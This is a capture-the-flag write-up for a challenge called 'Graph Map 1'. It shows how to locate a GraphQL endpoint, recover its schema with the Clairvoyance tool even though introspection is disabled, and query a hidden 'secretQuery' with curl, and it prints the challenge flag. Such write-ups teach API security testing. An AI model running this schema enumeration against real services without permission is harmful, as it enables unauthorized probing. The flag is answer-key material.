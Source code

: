 # Graph Map 1
## Presentation
You are presented with a website

![](image.png)
## Solving
"graph query languauge" should hint that the website has some kind of GraphQL running.
- Go to the url:port/graphql
- See that introspection is disabled
- Use a tool that obtais the schema even if the introspection is disabled, e.g. [Clairvoyance](https://github.com/nikitastupin/clairvoyance)
- Obtain the schema using Clairvoyance tool with `clairvoyance url:4000/graphql -o schema.json`
- Look through `schema.json` and see that there is a query name for `secretQuery`
- Make a POST request using cURL with `curl -X POST url:port/graphql -H "Content-Type: application/json" -d '{"query": "{ secretQuery }"}'` which should return `{"data":{"secretQuery":"RS{PR0B3_WA$_$UCC3$$FUL}"}}`

